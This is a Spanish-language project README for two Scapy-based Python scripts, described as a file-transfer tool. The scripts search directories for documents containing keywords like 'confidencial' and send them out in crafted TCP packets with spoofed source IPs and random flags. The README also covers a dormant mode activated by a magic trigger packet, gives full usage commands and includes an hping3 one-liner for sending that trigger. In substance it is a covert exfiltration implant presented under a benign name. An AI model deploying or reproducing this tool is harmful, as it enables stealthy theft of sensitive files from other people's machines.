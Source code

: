 # Transferencia de Archivos a través de capa de transporte TCP

Este proyecto contiene dos scripts en Python (sender.py y receiver.py) para la transferencia de archivos a través de la red utilizando paquetes TCP. El objetivo principal de estos scripts es permitir la búsqueda de archivos que contengan ciertas palabras clave y enviarlos a través de la red a una máquina destino. El proceso de envío y recepción se maneja mediante paquetes TCP personalizados utilizando la librería Scapy.

## Características
1-. **sender.py**: Permite buscar archivos en un directorio local que contengan ciertas palabras clave y enviarlos a una máquina destino a través de la red.

2-. **receiver.py**: Escucha en una interfaz de red para recibir los paquetes enviados por sender.py y reconstruir el archivo recibido.

## Requisitos
- Python 3.x
- Librerías necesarias:
  - scapy
  - PyPDF2
  - python-docx
  - xlrd
  - openpyxl
  - python-pptx
    
Puedes instalar las librerías necesarias ejecutando:
```
pip install scapy PyPDF2 python-docx xlrd openpyxl python-pptx
```

## Uso sender.py
  El script sender.py tiene dos modos de operación:
  
  ### Modo searchAndSend
  Busca archivos en un directorio especificado por palabras clave y los envía a una máquina destino.
    
  #### Ejemplo de uso:
  ```
  python3 sender.py searchAndSend --rootPath <directorio_raiz> --keywords <palabra1,palabra2> --destinationIp <IP_destino> --tcpFlag <flag_tcp>
  ```

  #### Argumentos:
  - **--rootPath**: Ruta del directorio donde comenzar a buscar archivos.
  - **--keywords**: Palabras clave que se buscarán en los archivos. Separadas por comas.
  - **--destinationIp**: Dirección IP del receptor (máquina destino).
  - **--destinationPort**: Puerto de destino (por defecto 80).
  - **--sourceIp**: Dirección IP de origen (por defecto 10.1.0.10).
  - **--sourcePort**: Puerto de origen (por defecto 12345).
  - **--tcpFlag**: Flag del protocolo TCP. Puede ser uno de los siguientes: S, A, P, F, R, U, SA, FA, SF o random.

  #### Ejemplo:
  ```
  python3 sender.py searchAndSend --rootPath /home/user/docs --keywords seguridad,confidencial --destinationIp 192.168.1.100 --tcpFlag random
  ```

  ### Modo waitForOrder
  Este modo espera recibir un comando de red para iniciar el envío de archivos. Una vez que el comando es recibido, sender.py buscará y enviará los archivos a la máquina destino.

  #### Ejemplo de uso:
  ```
  python3 sender.py waitForOrder
  ```
  Este comando pone al script en espera de recibir paquetes que contengan la información necesaria para realizar el envío de archivos. El paquete de activación debe comenzar por "1j2k3l4m" seguido de:
  
  - Valor del directorio raiz
  - Palabras clave
  - Dirección ip destino
  - Flag TCP

  Cada valor debe ir separado por "|"
  La cadena inicial "1j2k3l4m" sirve para identificar el paquete que activa el proceso. Se debe ajustar el parámetro -d con la longitud del string.

  #### Ejemplo
  ```
  1j2k3l4m./NAS|seguridad|192.168.1.11|S
  1j2k3l4m/home/user/Documents|planos|10.0.1.11|random
  1j2k3l4m/home/user/Documents|confidencial|198.51.100.12|F
  ```
  Puedes utilizar hping3 para realizar una prueba en la activación del proceso.
  ```
  echo -n "1j2k3l4m./NAS|seguridad|192.168.1.11|S" | sudo hping3 -S -p 80 -s 12345 -d 38 -E /dev/stdin 192.168.1.100
  ```

## Uso receiver.py
  El script receiver.py se utiliza para recibir los paquetes enviados por sender.py, reconstruir los archivos y guardarlos localmente. Solo se necesita ejecutar este script en la máquina que recibirá los archivos.

  #### Ejemplo de uso:
  ```
  python3 receiver.py
  ```
  El script comenzará a escuchar en la interfaz de red especificada (por defecto eth0) para recibir los paquetes y guardar los archivos en el directorio ./OUTPUT.
  
  ### Detalles de funcionamiento

  - **Envío de paquetes**: Los archivos se envían como fragmentos de paquetes TCP que se envían utilizando la librería Scapy. Cada fragmento incluye un identificador único ("magic") para asegurar que los paquetes sean correctamente reconocidos y procesados.

  - **Recepción de archivos**: El script receiver.py escucha los paquetes entrantes y va reconstruyendo el archivo a medida que recibe los fragmentos. Al finalizar la transferencia, el archivo es guardado en el directorio ./OUTPUT.

  #### Formatos de archivo soportados:
  - PDF
  - DOCX
  - TXT
  - XSL
  - XLSX
  - ODT

  Estos formatos son procesados para extraer su contenido y buscar las palabras clave.

## Seguridad
  - **ARP Spoofing**: Para evitar la resolución ARP (Address Resolution Protocol), la variable conf.arp_resolve está configurada a False en el script sender.py, lo que evita que se realicen consultas ARP durante el envío de paquetes.
  - **Dirección MAC estática**: La dirección MAC de destino está hardcodeada en el script como 00:11:22:33:44:55, lo cual podría ser necesario ajustarlo si se utiliza una red diferente.

## Contribuciones
Si deseas contribuir a este proyecto, por favor, realiza un fork del repositorio, realiza tus cambios y abre un pull request con una descripción detallada de las modificaciones.
